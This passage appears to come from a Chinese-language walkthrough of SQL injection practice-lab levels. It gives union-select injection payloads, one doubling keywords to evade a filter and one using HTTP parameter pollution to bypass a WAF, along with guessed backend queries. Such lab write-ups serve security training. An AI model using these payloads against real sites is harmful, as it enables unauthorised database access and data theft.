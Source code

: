 

此题我直接就用`union`注入了，顺便测试一下过滤性。





payload:

```
?id=-1')union union select select 1,2,3%23
```

> 后买你更详细的注入步骤就不写了，毕竟只做了`union select`的过滤





猜测后端sql语句：

```
select * from users where id=('前端传回的数据') limit 0,1;
```







#### 29.	绕过waf



此题一共有三个页面，分别是`index.php`,`login.php`,`hacked.php`。其中`login.php`和`hacked.php`是一对。`index.php`是独立的。(ps.我没懂这题为什么这样做)

> index.php很简单就绕过了。所以我认为他不是真正要进行waf绕过的题。实际的题，以`login.php`为准



​		此题绕过使用`HTTP`参数污染。

当一参数出现多次的时候不同的中间件会有不同的解析结果。这样就可以绕过。

> (ps.详情见web安全攻防186页)



payload:

```
?id=1&id=-1' union select 1,(select database()),3%23
```







猜测后端sql语句：

```
select * from users where id="前端传来的数据" limit 0,1;
```

> 此处的同一参数出现多次。中间件只执行了最后一次


